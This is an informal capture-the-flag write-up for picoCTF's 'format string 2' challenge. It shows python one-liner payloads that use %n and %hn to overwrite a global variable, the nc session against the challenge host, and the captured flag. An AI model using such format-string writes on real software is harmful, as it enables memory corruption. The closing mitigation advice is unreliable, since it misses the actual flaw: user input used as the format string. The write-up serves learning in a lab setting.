







## CTF: Binary Explotation AY25
Challenge: format string 2 

Category:   pwn 

Points:

Difficulty:    Intermediate

## Instructions
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!
Download the binary here.
Download the source here.
Additional details will be available after launching your challenge instance.

Hints: 
1. cjagbbyf ner irel hfrshy sbe guvf ceboyrz!

## Solution
File type 64-bit 

When looking at teh code figured out I need to write over the sus value

The ascii version of the hex 0x67616c66 = galf 
So i need to overwite itusing %n

When looking at the binary the buf variable is 0x40 from sus

Using some trial and error found out buf is on variable 14 of the printf statment

Going to try to just add enough reach sus to see if it is possible to over flow and overwrite it that way 

0x40 = 64 

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaa

It did not work 

 
Using nm to get the address of the global variables

0000000000404060 D sus

nc rhea.picoctf.net 58136 < <(python -c 'print("%14$p`@@\x00\x00\x00\x00\x00\x00\x00\x00\x00")')  
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?  
Here's your input: 0x4040607024343125`@@
sus = 0x21737573
You can do better!

Solved it off line 

< <(python -c 'print("%1734437990x%17$nAAAAaaa`@@\x00\x00\x00\x00\x00\x00\x00\x00\x00")')

used to send in the data to the variable
The python makes it so the \x are read as bytes directly 

%1734437990x prints out that number of charcters

%17$n puts the value of the number of printed chacters in the vlaue of the varible at %17 = sus

AAAAaaa moving the value over a few spaces

`@@\x00\x00\x00\x00\x00\x00\x00\x00\x00")') writing a adderss of the variable into the pointer

when doing the actual one on the intance it took to long

./vuln < <(python -c 'print("%26465x%20$n%1285x%18$hn.Aaaaaaa`@@\x00\x00\x00\x00\x00\x00aaaaaaa\x62\x40\x40\x00\x00\x00\x00\x00\x00\x62\x40\x40\x00\x00\x00\x00\x00")')

got to work faster

## Flag

picoCTF{f0rm47_57r?_f0rm47_m3m_99fd82cd}
## Mitigation

You could limit the buf size of the scanf that way you couldn't write a crazy long input needed to add the right hex value to the addresses. Could also limit the number of global variables so that you can't find them by default to change them.
